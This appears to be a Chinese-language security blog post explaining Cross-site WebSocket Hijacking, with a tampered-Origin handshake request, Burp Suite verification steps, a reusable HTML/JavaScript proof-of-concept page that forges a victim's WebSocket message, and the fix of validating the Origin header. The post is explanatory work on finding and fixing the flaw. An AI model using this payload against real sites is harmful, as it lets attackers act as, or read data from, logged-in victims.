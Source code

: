 ```yaml
---
layout: post
author: Vulkey_Chen
title: "浅谈WebSocket跨域劫持漏洞(CSWSH)"
date: 2019-03-20
music-id: 28661853
permalink: /archives/2019-03-20/1
description: "浅谈WebSocket跨域劫持漏洞(CSWSH)"
---
```


# WebSocket 跨域劫持漏洞

WebSocket 跨域劫持漏洞，英文名：**Cross-site WebSocket Hijacking**，漏洞类型：全能型CSRF（可读、可写）。

## 了解WebSocket

### Websocket 优点

1. 支持双向通信，实时性更强。
2. 更好的二进制支持。
3. 较少的控制开销。连接创建后，ws客户端、服务端进行数据交换时，协议控制的数据包头部较小。在不包含头部的情况下，服务端到客户端的包头只有2~10字节（取决于数据包长度），客户端到服务端的话，需要加上额外4字节的掩码。而HTTP协议每次通信都需要携带完整的头部。
4. 支持扩展。ws协议定义了扩展，用户可以扩展协议，或者实现自定义的子协议。（比如支持自定义压缩算法等）

### Websocket 如何建立连接

画了一张图让你了解：

![websocket](https://vulkey.oss-cn-hangzhou.aliyuncs.com/CSWSH/0.png)


## 漏洞产生

建立Websocket连接无验证。

### 案例

1.如下请求：

```http
GET / HTTP/1.1
Host: localhost:8080
Origin: http://127.0.0.1:3000
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: w4v7O6xFTi36lq3RNcgctw==

```

篡改Origin，发现没有对Origin进行验证，也可以跨域进行协议升级。

2.进一步验证

2.1获取到了一个发送评论的请求 （**使用BurpSuite->Proxy模块->Websockets History查看，这里是对应的 Direction值为Outgoing为发出的请求，Incoming为发出请求对应的响应信息**）

![test](https://vulkey.oss-cn-hangzhou.aliyuncs.com/CSWSH/1.png)

2.2使用JavaScript创建Websocket请求

**如上图所示Outgoing的内容为“我是帅key的可爱小迷弟”，那么发送的数据就是这个**。

```html
<meta charset="utf-8">
<script>
function ws_attack(){
	var ws = new WebSocket("ws://域名:端口/");//如果请求的Websocket服务仅支持HTTP就写成ws://，如果请求的Websocket服务支持HTTPs就写成wss://
	ws.onopen = function(evt) { 
		ws.send("我是帅key的可爱小迷弟！");
	};
	ws.onmessage = function(evt) {
		ws.close();
	};
}
ws_attack();
</script>
```

2.3验证发现可以请求并成功进行重放，存在Websocket跨域劫持

（这里只是简单的评论请求，危害就是：点我链接让你评论我想评论的，试想：如果是修改密码的WebSocket请求存在劫持那么问题就大了～）

## 漏洞利用

攻击流程跟以往的交互类漏洞没什么区别（点我链接读取你XXX、点我链接让你XXX）：

![attack](https://vulkey.oss-cn-hangzhou.aliyuncs.com/CSWSH/2.png)

来一个圈子"铸剑实战靶场"的截图，自我体会：

![success](https://vulkey.oss-cn-hangzhou.aliyuncs.com/CSWSH/3.png)

### PoC代码编写

```html
<meta charset="utf-8">
<script>
function ws_attack(){//自定义函数ws_attack
    //定义函数功能
    //创建WebSocket并赋值给ws变量
	var ws = new WebSocket("ws://域名:端口/");//如果请求的Websocket服务仅支持HTTP就写成ws://，如果请求的Websocket服务支持HTTPs就写成wss://
	ws.onopen = function(evt) { 
        //当ws(WebSocket)处于连接状态时执行
		ws.send("我是帅key的可爱小迷弟！");
	};
	ws.onmessage = function(evt) {
        //当ws(WebSocket)请求有响应信息时执行
        //注意：响应的信息可以通过evt.data获取！例如：alert(evt.data);
		ws.close();
	};
}
ws_attack();//执行ws_attact函数
</script>
```

## 修复方法

综合建议：校验Origin头

# Reference

https://www.cnblogs.com/chyingp/p/websocket-deep-in.html
